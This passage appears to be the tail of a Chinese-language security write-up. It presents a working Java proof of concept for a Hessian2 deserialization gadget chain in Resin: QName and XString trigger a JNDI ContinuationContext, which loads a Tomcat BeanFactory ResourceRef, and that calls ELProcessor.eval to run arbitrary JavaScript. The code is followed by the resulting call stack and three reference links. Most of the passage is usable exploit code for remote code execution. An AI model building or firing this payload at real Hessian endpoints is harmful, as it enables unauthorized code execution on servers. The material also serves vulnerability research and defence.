        ResourceRef resourceRef = new ResourceRef("javax.el.ELProcessor", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);
        resourceRef.add(new StringRefAddr("forceString", "x=eval"));
        resourceRef.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"js\").eval(\""+ x +"\")"));

        Class<?> clazz = Class.forName("javax.naming.spi.ContinuationContext");
        Constructor<?> constructor = clazz.getDeclaredConstructor(CannotProceedException.class, Hashtable.class);
        constructor.setAccessible(true);

        CannotProceedException cpe = new CannotProceedException();
        cpe.setResolvedObj(resourceRef);

        Hashtable<?, ?> hashtable = new Hashtable<>();
        Context continuationContext = (Context) constructor.newInstance(cpe, hashtable);
        QName qname = new QName(continuationContext,"aaa","bbb");

        String unhash = unhash(qname.hashCode());
        XString xstring = new XString(unhash);

        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("yy", xstring);
        map1.put("zZ", qname);
        map2.put("zZ", xstring);
        map2.put("yy", qname);
        Hashtable table = new Hashtable();
        table.put(map1, "1");
        //table.put(map2, "2");

        byte[] payload = Hessian2_serialize(table);
        table.put(map2, "2");
        Hessian2_unserialize(payload);
    }

    public static String unhash ( int hash ) {
        int target = hash;
        StringBuilder answer = new StringBuilder();
        if ( target < 0 ) {
            answer.append("\\u0915\\u0009\\u001e\\u000c\\u0002");

            if ( target == Integer.MIN_VALUE )
                return answer.toString();
            target = target & Integer.MAX_VALUE;
        }

        unhash0(answer, target);
        return answer.toString();
    }


    private static void unhash0 ( StringBuilder partial, int target ) {
        int div = target / 31;
        int rem = target % 31;

        if ( div <= Character.MAX_VALUE ) {
            if ( div != 0 )
                partial.append((char) div);
            partial.append((char) rem);
        }
        else {
            unhash0(partial, div);
            partial.append((char) rem);
        }
    }

    public static byte[] Hessian2_serialize(Object o) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(baos);
        hessian2Output.getSerializerFactory().setAllowNonSerializable(true);
        hessian2Output.writeObject(o);
        hessian2Output.flush();
        return baos.toByteArray();
    }

    public static Object Hessian2_unserialize(byte[] bytes) throws IOException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        Hessian2Input hessian2Input = new Hessian2Input(bais);
        Object o = hessian2Input.readObject();
        return o;
    }
}
```

调用栈

```java
at javax.el.ELProcessor.eval(ELProcessor.java:54)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at org.apache.naming.factory.BeanFactory.getObjectInstance(BeanFactory.java:211)
at javax.naming.spi.NamingManager.getObjectInstance(NamingManager.java:321)
at javax.naming.spi.NamingManager.getContext(NamingManager.java:439)
at javax.naming.spi.ContinuationContext.getTargetContext(ContinuationContext.java:55)
at javax.naming.spi.ContinuationContext.composeName(ContinuationContext.java:180)
at com.caucho.naming.QName.toString(QName.java:353)
at com.sun.org.apache.xpath.internal.objects.XString.equals(XString.java:392)
at java.util.AbstractMap.equals(AbstractMap.java:472)
at java.util.Hashtable.put(Hashtable.java:469)
at com.caucho.hessian.io.MapDeserializer.readMap(MapDeserializer.java:114)
at com.caucho.hessian.io.SerializerFactory.readMap(SerializerFactory.java:571)
at com.caucho.hessian.io.Hessian2Input.readObject(Hessian2Input.java:2100)
at org.example.resin.resouceRefELProccessorPoc.Hessian2_unserialize(resouceRefELProccessorPoc.java:97)
at org.example.resin.resouceRefELProccessorPoc.main(resouceRefELProccessorPoc.java:51)
```

> https://cloud.tencent.com/developer/article/2387944
>
> https://www.cnblogs.com/F12-blog/p/18156091
>
> https://infernity.top/2025/03/02/Resin%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/

